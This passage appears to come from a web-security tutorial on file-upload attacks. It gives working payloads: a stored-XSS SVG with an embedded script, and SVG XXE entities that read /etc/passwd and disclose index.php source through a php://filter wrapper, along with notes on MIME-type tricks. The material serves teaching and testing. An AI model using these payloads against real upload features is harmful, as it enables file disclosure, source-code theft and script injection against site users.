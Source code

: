 Note: When the image's metadata is displayed, the XSS payload should be triggered, and the JavaScript code will be executed to carry the XSS attack. Furthermore, if we change the image's MIME-Type to `text/html`, some web applications may show it as an HTML document instead of an image, in which case the XSS payload would be triggered even if the 
metadata wasn't directly displayed.

## Stored XSS in SVG File

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1"><rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
	<script type="text/javascript">alert(window.origin);</script>
</svg>
```

## **XXE** in SVG File (Including Files)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

Once the above SVG image is uploaded and viewed, the XML document would get processed, and we should get the info of (`/etc/passwd`) printed on the page or shown in the page source. Similarly, if the web application allows the upload of `XML` documents, then the same payload can carry the same attack when the XML data is displayed on the web application.

## **XXE** in SVG File (Source Code Disclosure)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```
